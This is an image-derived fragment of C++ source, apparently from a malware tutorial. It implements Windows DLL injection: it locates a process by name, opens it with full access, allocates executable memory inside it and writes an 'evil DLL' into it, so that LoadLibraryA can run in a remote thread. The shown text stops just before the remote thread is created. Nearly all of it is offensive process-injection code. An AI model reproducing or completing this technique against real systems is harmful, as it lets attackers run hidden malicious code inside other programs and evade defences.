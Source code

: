 ```cpp
// find process ID by process name
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // get process ID by name
  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  } else {
    printf("PID = %d\n", pid);
  }

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
```